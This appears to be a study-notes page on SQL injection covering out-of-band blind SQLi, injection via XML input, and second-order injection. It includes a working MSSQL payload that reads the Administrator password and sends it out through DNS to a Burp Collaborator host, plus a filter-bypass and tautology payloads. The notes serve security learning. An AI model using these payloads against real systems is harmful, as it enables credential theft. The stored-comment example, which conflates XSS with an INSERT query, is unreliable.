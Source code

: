 ## Exploiting blind SQL injection using out-of-band (OAST) techniques:
- The application continues processing the user's request in the original thread, and uses another thread to execute a SQL query using the tracking cookie.
- Typically the most effective is DNS (domain name service) for this type of SQLi.
- The easiest and most reliable tool for using out-of-band techniques is Burp Collaborator.

- The techniques for triggering a DNS query are specific to the type of database being used. For example,
- the following input on Microsoft SQL Server can be used to cause a DNS lookup on a specified domain:
- Injection: `'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'-- `
- This causes the database to perform a lookup for the following domain: `0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`

## Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application
- Injection: `'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`
- This input reads the password for the Administrator user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This lookup allows you to view the captured password: S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net

> Out-of-band (OAST) techniques are a powerful way to detect and exploit blind SQL injection, due to the high chance of success and the ability to directly exfiltrate data within the out-of-band channel.


# SQL injection in different contexts:
- We can `perform SQL injection attacks using any controllable input` that is processed as a SQL query by the application.
- For example, `some websites take input in JSON or XML format and use this to query the database.`
- To bypass these filters by encoding or escaping characters in the prohibited keywords.
```
For example, the following XML-based SQL injection uses an XML escape sequence to encode the S character in SELECT:

<stockCheck>
    <productId>123</productId>
    <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
</stockCheck>

This will be decoded server-side before being passed to the SQL interpreter.
```


# Second-order SQL injection:

## E. `Second Order SQLi/stored SQL injection/Persistent SQL Injection: takes user input & stores(in DB) it for future use.`
-  Application takes user input from an HTTP request(Input field) and stores(in DB) it for future use.
-  Later, when handling a different HTTP request, the application retrieves the stored data and incorporates it into an SQL query in an unsafe way.

>  Second-order SQL injection `occurs when user-supplied input is stored and later used in a SQL query without proper validation and sanitization.` 
-  <img width="500" alt="image" src="https://github.com/cybersome/CyberEssentials/assets/40174034/c90a6116-2d4c-43f1-86a6-c927b2cc9428">

### Examples:
1. `User Registration Form`: An attacker could register with a username containing a malicious payload, such as: `Username: ' OR '1'='1'; --`
- Later, when the application retrieves user details using the stored query, it becomes:  `SELECT * FROM users WHERE username = '' OR '1'='1'; --';`

2. `User Comments`: An attacker could submit a comment containing a malicious payload, such as: `Comment: <script>malicious_code();</script>` 
- Later, when the application retrieves and displays the comments using the stored query, it becomes: `INSERT INTO comments (content) VALUES ('<script>malicious_code();</script>');`
